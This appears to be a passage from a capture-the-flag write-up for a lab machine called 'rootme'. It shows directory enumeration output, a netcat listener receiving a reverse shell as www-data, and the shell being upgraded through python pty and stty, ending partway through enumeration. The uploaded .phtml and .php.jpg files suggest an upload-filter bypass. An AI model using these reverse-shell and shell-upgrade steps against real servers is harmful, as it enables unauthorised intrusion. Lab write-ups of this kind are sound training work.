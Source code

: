 ```
/css                  (Status: 301) [Size: 312] [--> http://10.10.215.165/css/]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.215.165/uploads/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.215.165/panel/]  
/server-status        (Status: 403) [Size: 278]                                    
^C
[!] Keyboard interrupt detected, terminating.
                                                                                   
===============================================================
2021/05/29 23:43:21 Finished
===============================================================
```

Shell - www-data

```
→ root@kali «rootme» «10.9.30.115» 
$ nc -nvlp 443 
listening on [any] 443 ...
connect to [10.9.30.115] from (UNKNOWN) [10.10.215.165] 40316
bash: cannot set terminal process group (915): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/var/www/html/uploads$ ls -la
ls -la
total 112
drwxrwxrwx 2 www-data www-data   4096 May 30 03:43 .
drwxr-xr-x 6 www-data www-data   4096 Aug  4  2020 ..
-rw-r--r-- 1 www-data www-data 101181 May 30 03:42 iamf.php.jpg
-rw-r--r-- 1 www-data www-data     73 May 30 03:44 iamf.phtml
www-data@rootme:/var/www/html/uploads$ cd ../
ls
cd ../
www-data@rootme:/var/www/html$ ls
Website.zip
css
index.php
js
panel
uploads
www-data@rootme:/var/www/html$ which python
which python
/usr/bin/python
www-data@rootme:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@rootme:/var/www/html$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$ ^Z
[1]  + 2625 suspended  nc -nvlp 443
→ root@kali «rootme» «10.9.30.115» 
$ stty raw -echo; fg
[1]  + 2625 continued  nc -nvlp 443

bash-4.4$ ls -l
total 276
-rw-r--r-- 1 www-data www-data 259678 Aug  4  2020 Website.zip
drwxr-xr-x 2 www-data www-data   4096 Aug  4  2020 css
-rw-r--r-- 1 www-data www-data    645 Aug  4  2020 index.php
drwxr-xr-x 2 www-data www-data   4096 Jun  2  2020 js
drwxr-xr-x 2 www-data www-data   4096 Aug  4  2020 panel
drwxrwxrwx 2 www-data www-data   4096 May 30 03:43 uploads
bash-4.4$ ls -lt --time-style=full-iso | grep -v '000000000'
total 101032
```